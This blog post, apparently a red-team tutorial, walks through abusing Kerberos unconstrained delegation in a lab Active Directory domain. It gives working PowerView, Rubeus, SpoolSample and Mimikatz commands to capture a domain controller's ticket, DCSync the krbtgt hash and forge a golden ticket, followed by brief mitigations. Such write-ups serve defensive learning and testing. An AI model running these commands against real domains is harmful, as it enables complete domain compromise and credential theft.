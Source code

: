 ```yaml
---
layout: post
title: "Abusing Kerberos unconstrained delegation and DCSync the Domain."
description: "This post demonstrates how to capture the domain controller’s Ticket-Granting-Ticket (TGT) by coerce a domain controller to authenticate to a computer configured with unconstrained delegation."
tags: [red_team, active_directory]
---
```


### Introduction.

In the `Active Directory` environment delegation allows an account to impersonate another account to access resources within the network.

There are three known types of delegations allowed with Kerberos:

- Unconstrained delegations.
- Constrained delegations.
- Resource-based constrained delegations.

Unconstrained delegation allows a user or computer with the option "Trust This user/computer for delegation to any service" enabled to impersonate any user authenticated to it and request access to any service.

Today we will be trying to abuse Unconstrained delegation to perform a privilege escalation and become a domain admin.

The following image represents a computer in the Active Directory which is configured for unconstrained delegation:

{% include image.html path="screenshots/krbdelg/1.png" path-detail="screenshots/krbdelg/1.png" alt="Sample image" %}

<br>
<hr>
<br>

### Attack Requirements

- A domain computer with the delegation option "Trust This computer for delegation to any service" enabled.
- Local admin privileges on the delegated computer to dump the TGT tickets. If you compromised the server as a regular user, you would need to escalate to abuse this delegation feature.

<br>
<hr>
<br>

### Tools Used

- [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
- [Active Directory Modules](https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps)
- [Mimikatz](https://github.com/gentilkiwi/mimikatz)
- [SpoolSample](https://github.com/leechristensen/SpoolSample)
- [Rubeus](https://github.com/GhostPack/Rubeus)

<br>
<hr>
<br>

### Identifying The Target.

We are interested with computer objects with the property `TrustedForDelegation` set to `true`:

We can use PowerView to find computers that are configured for Unconstrained Delegation with a syntax :

```powershell
Get-DomainComputer -Unconstrained -Properties useraccountcontrol,dnshostname | fl
```
<br>
{% include image.html path="screenshots/krbdelg/2.png" path-detail="screenshots/krbdelg/2.png" alt="Sample image" %}

<br>
Also using ADModule with the following syntax we can see the same results:

```powershell
 Get-ADComputer -Filter {TrustedForDelegation -eq $True}
```
<br>
{% include image.html path="screenshots/krbdelg/3.png" path-detail="screenshots/krbdelg/3.png" alt="Sample image" %}


As we can see we have two computers in the `STRAWHATS.local` domain with unconstrained delegation:

- The computer is named `DC01.strawhats.local`, which is a domain controller, Domain controllers have unconstrained delegation enabled by default.
- The computer named `BLACKBEARD.strawhats.local` computer which is our target, we are good to attack.

<br>
<hr>
<br>

### Exploitation.

In order to exploit unconstrained delegation we need to compromise the system with the delegation enabled, in this post we’ll assume that we already did it.

The idea is to coerce a privileged user to connect to the computer with the delegation enabled. To achieve this we’re going to use the SpoolSample bug to force a domain controller account to connect to us.

First let us set up Rubeus on the computer we compromised to listen for incoming authenticated connections in order to monitor for incoming connections with Rubeus using the following command:

```powershell
Rubeus.exe monitor /interval:5 /filteruser:DC01
```

<br>
{% include image.html path="screenshots/krbdelg/4.png" path-detail="screenshots/krbdelg/4.png" alt="Sample image" %}

Next, using SpoolSample tools, we trigger the printer bug on a domain controller, We are triggering the bug on host `DC01.strawhats.local` and coercing it to authenticate against the host that we control where we are running Rubeus, `BLACKBEARD.strawhats.local`.

```powershell
SpoolSample.exe DC01.strawhats.local BLACKBEARD.strawhats.local
```

where:

- `DC01.strawhats.local` is the domain controller we want to compromise
- `BLACKBEARD.strawhats.local` is the machine with delegation enabled that we control.

{% include image.html path="screenshots/krbdelg/5.png" path-detail="screenshots/krbdelg/5.png" alt="Sample image" %}

Suddenly, we see the authentication come from DC01 along with its ticket granting ticket (TGT) captured by Rubeus.

{% include image.html path="screenshots/krbdelg/6.png" path-detail="screenshots/krbdelg/6.png" alt="Sample image" %}

From a powershell console we can convert the base64 ticket and write the contents to a file with the .kirbi extension using the following command.

```powershell
[IO.File]::WriteAllBytes("C:\tools\DC.kirbi", [Convert]::FromBase64String("Base64 Ticket String"))
```
<br>
{% include image.html path="screenshots/krbdelg/7.png" path-detail="screenshots/krbdelg/7.png" alt="Sample image" %}

Before we proceed with pass-the-ticket attack and become a domain admin, let's try PSRemoting to the DC01 from BLACKBEARD and check currently available kerberos tickets in a current logon session, just to make sure we currently do not have domain admin rights:

{% include image.html path="screenshots/krbdelg/9.png" path-detail="screenshots/krbdelg/9.png" alt="Sample image" %}

Above picture shows that there are no tickets and PSSession could not be established.

Using Mimikatz we can pass-the-ticket and the current user account will get high privilege rights on the domain controller.

```powershell
mimikatz.exe "kerberos::ptt DC.kirbi"
```

<br>
{% include image.html path="screenshots/krbdelg/8.png" path-detail="screenshots/krbdelg/8.png" alt="Sample image" %}

Then we `DCSync` to dump the `NTLM` hash of the `krbtgt` account.

```powershell
lsadump::dcsync /user:STRAWHATS\krbtgt`
```
<br>
{% include image.html path="screenshots/krbdelg/10.png" path-detail="screenshots/krbdelg/10.png" alt="Sample image" %}

Now let’s forge a golden ticket with Mimikatz for the user STRAWHATS\Administrator:

```powershell
kerberos::golden /user:Administrator /domain:strawhats.local /sid:S-1-5-21-3112608399-2123514497-4142719192-502 /krbtgt:3db0f96a64abc0bc2e4dd779d191d74a /ptt
```
<br>
{% include image.html path="screenshots/krbdelg/11.png" path-detail="screenshots/krbdelg/11.png" alt="Sample image" %}

Now We can try to PSRemote again into the domain controller as the Administrator user :

<br>
{% include image.html path="screenshots/krbdelg/12.png" path-detail="screenshots/krbdelg/12.png" alt="Sample image" %}

As we can see from the above screenshot, the BLACKBEARD computer now contains a krbtgt for STRAWHATS\Administrator, which enables to establish a PSSession to DC01 with an interactive shell with Domain admin privileges.

<br>
<hr>
<br>

### Mitigation.

- Disable kerberos delegation where possible.
- Be cautious of whom you give privilege "Trust This user/computer for delegation to any service".

<br>
<hr>
<br>

##### References.

- https://www.slideshare.net/harmj0y/the-unintended-risks-of-trusting-active-directory
- https://adsecurity.org/?p=1667
- https://blog.xpnsec.com/kerberos-attacks-part-1/
- https://www.cyberark.com/resources/threat-research-blog/weakness-within-kerberos-delegation
